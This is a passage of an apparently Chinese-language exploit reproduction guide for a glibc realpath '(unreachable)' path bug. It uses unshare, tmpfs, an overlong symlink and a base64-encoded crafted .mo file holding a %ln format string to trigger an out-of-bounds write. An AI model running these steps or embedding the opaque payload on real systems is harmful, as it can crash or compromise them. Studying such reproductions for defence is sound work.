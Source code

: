 其他进程进入`us_proc`进程的`"/proc/[us_proc pid]/cwd"`目录后，用`realpath(getcwd)`获取的相对目录均包含`"(unreachable)/tmp/"`前缀

```
/usr/bin/unshare -m -U --map-root-user /bin/bash
mount -t tmpfs tmpfs /tmp
cd /tmp
chmod 00755 .

# Terminal 1
debian@debian:~/Desktop/work$ /usr/bin/unshare -m -U --map-root-user /bin/bash
root@debian:~/Desktop/work# mount -t tmpfs tmpfs /tmp
root@debian:~/Desktop/work# cd /tmp
root@debian:/tmp# chmod 00755 .
root@debian:/tmp# echo $$
52426
root@debian:/tmp# 

# 效果如下
# Terminal 2
$ cd /proc/52426/cwd
debian@debian:/proc/52426/cwd$ 
debian@debian:/proc/52426/cwd$ realpath .
(unreachable)/tmp
debian@debian:/proc/52426/cwd$ realpath ../x
(unreachable)/x
debian@debian:/proc/52426/cwd

```

- Step3 - 创建漏洞利用需要的目录和文件

      - `__gconv_find_shlib/C/LC_MESSAGES`目录是setloacale寻找mo文件的相对路径，
        特别要注意的一点：`__gconv_find_shlib` 在不同系统上不一样，在漏洞作者的exp中还给出了两个目录(`from_archive, _nl_load_locale_from_archive`) ；
      - `"(unreachable)/x"` 是realpath解析符号链接的返回值对应的目录；
      - `util-linux.mo`文件用于保存特制的libc依赖的.mo翻译文件；
      - 符号链接用于触发越界写漏洞；
      - `util-linux.mo`保存了触发DOS的特制格式化字符串`"AA%6$lnlnAAAAAAAAAA"`。

```
mkdir -p -- "(unreachable)/tmp" "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES" "(unreachable)/x"
ln -s ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A "(unreachable)/tmp/down"
base64 -d <<B64-EOF | bzip2 -cd > "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES/util-linux.mo"
QlpoOTFBWSZTWTOfm9IAAGX/pn6UlARGB+FeKyZnAD/n3mACAAAgAAEgAJSIqfkpspk0eUGJ6gAG
mQeoaD1PJAamlPJGCNMTIaNGmnqMQ0AAzSwpEWpQICVUw+490ohZBgZ+s4EBAZCn/TavSQshtCiv
iG6HOehyAp4FPt3zkpdTxNchTYITLBkXUjsgpN2QDBNX8qmbpkVgfLXKcQc1ZhVF0FxUQOtnbGlL
5NhRmORwmQF1Dw3Yu1mds6tGAmnLwWwc2KRKGl5hcLuSKcKEgZz83pA=
B64-EOF

root@debian:/tmp# tree
.
└── (unreachable)
    ├── tmp
    │   ├── down -> ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A
    │   └── __gconv_find_shlib
    │       └── C
    │           └── LC_MESSAGES
    │               └── util-linux.mo
    └── x


```